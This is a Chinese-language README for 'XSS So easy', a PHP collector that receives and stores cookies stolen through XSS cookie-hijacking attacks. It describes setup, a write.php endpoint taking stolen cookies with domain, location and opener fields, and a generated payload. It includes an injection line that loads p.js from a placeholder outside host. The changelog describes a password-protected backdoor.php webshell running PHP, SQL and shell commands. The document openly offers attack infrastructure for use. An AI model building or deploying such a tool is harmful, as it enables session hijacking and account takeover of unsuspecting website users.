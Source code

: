 #XSS So easy
##简介
此网站用于XSS Cookie 劫持攻击中接收并储存Cookie。  
程序语言使用PHP，使用PDO扩展，请根据数据库正确安装；开发环境使用MySQL数据库，理论上PDO扩展支持各种数据库。

##使用方法
###安装配置
1. 建议预先新建数据库用户，赋予最小权限。
2. 配置`config.php`，填写数据库用户名、密码等信息。  
3. 访问`install.php`：创建数据库、表等操作。
4. 建议更改`config.php`文件权限为只能被HTTP服务程序读取，可以设置`style/color.css`可写。  

###使用  
通过`write.php`，GET或者POST方法传输获取到的Cookie。  
可供提交的参数为`domain location toplocation cookie opener`。其中`domain`必填。  
含有payload：`p.php`。  

##附加功能
各个页面的独立访问密码  
自定义网站名称（title和页面中显示）  
自定义开发者信息（底部显示）    

##Update
###2015-9-12 21:05:48
一条不当的payload，使数据库里多了几百条垃圾数据。  
于是我写了执行SQL语句的backdoor.php。（支持密码）  

###2015-9-16 10:44:21
自我感觉默认配置的颜色过于小清新。于是分离出color.css文件，可以自行配置颜色。  
出于复（xián）习（de）知（dàn）识（téng）的目的，做了个color.php，向color.css写入数据。  
后门支持PHP、SQL、shell命令执行，且支持SQL SELECT命令结果显示。SQL的INSERT UPDATE DELETE影响行数显示。（突然发现做了个WebShell）  
输出表格增加\n使HTML源文件易读。  
由于空字符串在if语句中效果同false，因此system()返回最后一行为空时应使用if($foo !== FALSE)。其他情况同理。  
改变字体为等宽字体。个别地方，中文使用微软雅黑。  
使用Eclipse排版一下。其他一些细节调整优化。  

###2015-9-16 22:25:33
CSS文件已改为PHP文件读写。  
在Windows上运行系统命令时输出字符集为GBK，增加自动转换为UTF-8。  

###2015-9-21 21:26:59
密码验证方式由GET改为POST，并增加install和testMySql页面密码功能  
分离出CSS文件，并移动到style/main.css  
增加read.php条件查询  

###2015-10-20 15:45:32
修改数据库，更改url字段名为location并允许NULL，增加toplocation（用于框架）、opener。  
**从旧的数据库变更请在backdoor.php执行SQL命令**：  

	alter table info change url location longtext NULL
	alter table info add toplocation longtext
	alter table info modify column cookie longtext after toplocation
	alter table info add opener longtext
	describe info  

增加p.js作为payload，修改内部write.php域名和路径即可使用。  
`<script src=http://xxx.xxx/p.js></script>`  

###2015年11月19日 21:43:46
近期更新：  
  
- `read.php`默认的倒序排序，增加删除键，调整样式  
- 改进`backdoor.php`交互设计

###2016年8月25日
- 从已废弃的`mysql_connect()`系列函数更新到PDO扩展。  
- 大量改进代码：验证密码部分整合成模块，payload `p.js`改为`p.php`,根据`config.php`动态生成。